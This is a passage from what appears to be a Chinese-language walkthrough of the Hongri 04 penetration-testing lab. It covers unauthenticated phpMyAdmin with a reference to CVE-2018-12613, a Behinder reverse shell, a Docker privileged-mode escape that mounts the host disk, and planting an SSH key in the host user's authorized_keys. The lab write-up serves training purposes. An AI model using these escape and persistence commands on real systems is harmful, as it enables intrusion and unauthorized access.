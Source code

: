 使用冰蝎的反弹shell功能，获取一个meterpreter

![红日靶场04通关记录](http://cn-sec.com/wp-content/uploads/2022/05/0-1653148362.png "红日靶场04通关记录")

#### phpmyadmin

1、访问2003端口是phpmyadmin页面，属于未授权.

![红日靶场04通关记录](http://cn-sec.com/wp-content/uploads/2022/05/7-1653148364.png "红日靶场04通关记录")

关于phpmyadmin的攻击方法在红日靶场01我们介绍过，不过这里多了一个getshell的方法：CVE-2018-12613。远程文件包含`session`(对应版本:phpmyadmin 4.8.1)，通过`phpsession`序列化数据保存至session文件，包含其缓存文件。通过一句话木马，进而包含`sess_sessionId`文件，这里不复现了，有兴趣的童鞋可以查查。

## 0x02 docker特权模式逃逸

什么是特权模式？特权模式于版本0.6时被引入Docker，就是docker在启动容器的时候，加了`--privileged`参数，例如`docker run -it --privileged xx /bin/bash`从而可以实现docker容器数据卷的挂载与文件共享，同时容器的root权限为真实物理机的权限；如果不加`--privileged`参数，容器中的root其实就相当于宿主机的一个普通用户。

总之一句话：当管理员执行docker run —privileged时，Docker容器将被允许访问主机上的所有设备，并可以执行mount命令进行挂载。

**==可以通过fdisk -l来判断容器是否以特权模式启动==**，如下图：

![红日靶场04通关记录](http://cn-sec.com/wp-content/uploads/2022/05/10-1653148366.png "红日靶场04通关记录")

![红日靶场04通关记录](http://cn-sec.com/wp-content/uploads/2022/05/4-1653148368.png "红日靶场04通关记录")

那么我们就可以创建一个文件夹，将宿主机根目录挂载至容器目录下。使用`fdisk -l`来查看linux机器所挂硬盘个数以及分区等信息。

![红日靶场04通关记录](http://cn-sec.com/wp-content/uploads/2022/05/7-1653148369.png "红日靶场04通关记录")

在`tomcat`容器中新建个空目录，将宿主机根目录挂载至容器目录下

1.  `cd /tmp` `mkdir docker` `mount /dev/sda1 docker #将宿主机根目录挂载至容器目录下` `ls / -alh docker #查看docker文件夹，即宿主机的文件夹`

![红日靶场04通关记录](http://cn-sec.com/wp-content/uploads/2022/05/9-1653148371.png "红日靶场04通关记录")

## 0x03 宿主机上线

关于docker特权模式逃逸进行宿主机上线的方法，有下面这几种：

#### 1、写入ssh公钥(复现失败)

在宿主机的home下面发现了ubuntu用户，于是使用kali生成公钥，并且通过冰蝎上传`tmp.pub`

1.  `ssh-keygen -f tmp` `chmod 600 tmp`

![红日靶场04通关记录](http://cn-sec.com/wp-content/uploads/2022/05/2-1653148373.png "红日靶场04通关记录")

1.  `cp -avx docker/home/ubuntu/.ssh/id_rsa.pub docker/home/ubuntu/.ssh/authorized_keys` `cat tmp.pub >> docker/home/ubuntu/.ssh/authorized_keys`

我这里没有复现成功，写入公钥后使用`ssh -i`指定私钥连接还是要输入账号密码。
